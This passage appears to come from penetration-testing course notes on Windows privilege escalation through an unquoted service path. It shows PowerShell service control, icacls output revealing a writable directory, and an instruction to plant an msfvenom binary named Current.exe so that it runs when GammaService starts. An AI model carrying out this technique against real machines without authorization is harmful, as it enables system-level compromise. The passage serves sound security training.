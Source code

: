 The output of this command only lists services that are potentially vulnerable to our attack vector, such as GammaService. Before we go on, let's check if we can start and stop the identified service as _steve_ with **Start-Service** and **Stop-Service**.

```shell
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```

The output from Listing 69 indicates that _steve_ has permissions to start and stop GammaService. Since we can restart the service ourselves, we don't need to issue a reboot to restart the service. Next, let's list the paths Windows uses to attempt locating the executable file of the service.

```text
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Let's check our access rights in these paths with **icacls**. We see that in `C:\` and `C:\Program Files` our user doesn't have write permissions

```console
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)
```

The output shows that BUILTIN\Users has Write (w) permissions on the path `C:\Program Files\Enterprise Apps`. Our goal is now to place a malicious file named `Current.exe` in `C:\Program Files\Enterprise Apps\` (Use a .exe binary from msfvenom). After that we start the service and the malicious binary will be executed, even if it throws an error.

```shell
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```
